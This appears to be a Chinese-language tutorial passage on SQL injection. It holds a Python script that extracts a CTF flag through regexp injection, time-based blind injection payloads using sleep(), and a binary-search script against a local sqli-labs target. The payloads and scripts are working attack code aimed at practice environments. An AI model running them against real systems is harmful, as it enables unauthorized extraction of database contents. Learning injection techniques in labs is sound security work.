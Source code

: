 ```python
        # url2 = "https://chall.tasteless.eu/level1/index.php?dir=|{select (select flag from level1_flag) regexp " + "'" + payload + "'" + "}%2b1"
        url2 = "https://chall.tasteless.eu/level1/index.php?dir=|{select (select flag from level1_flag) regexp " + "'" + payload + "'" + "}%2b1"
        print(url2)
        # 获取实际注入后的排列内容
        content2 = requests.get(url2).content
        # 如果不相等，即为flag内容（为什么是不相等，而不是相等，因为在url2的最后又“+1”，即匹配成功则是“?dir=|2”，匹配不成功则是“?dir=|1”）
        if (content1 != content2):
            flag = payload
            print(flag)
            break

```

### 时间盲注

盲注是在SQL注入攻击过程中，服务器关闭了错误回显，单纯通过服务器返回内容的变化来判断是否存在SQL注入的方式 。

可以用benchmark，sleep等造成延时效果的函数。

1、利用sleep判断数据库名长度

```sql
' and sleep(5) and 1=1--+	页面返回不正常，延时5秒
' and sleep(5) and 1=2--+	页面返回不正常，不延时
1' and sleep(5)#
1 and sleep(5)
```

2、获取数据库名

```sql
and if(substr(database(),1,1)='a',sleep(5),1)--+
```

一般的时间盲注主要就是使用`sleep()`函数进行时间的延迟，然后通过if判断是否执行`sleep()`：

```sql
admin' and if(ascii(substr((select database()),1,1))>1, sleep(5), 0)#
```

#### 脚本

```python
import requests
import json
import time

url = 'http://localhost/sqli/Less-1/?id='
flag = ''
for i in range(1, 250):
    low = 32
    high = 128
    mid = (low + high) // 2
    while low < high:

        payload = "http://localhost/sqli/Less-1/?id=1' and if(ascii(substr((select database()),{},1))>{}, sleep(5), 0) --+".format(i, mid)
        print(payload)
        times = time.time()
        res = requests.get(url=payload)

        if time.time() - times >= 5:  # 为真时，即判断正确的时候的条件
            low = mid + 1
        else:
            high = mid
        mid = (low + high) // 2
```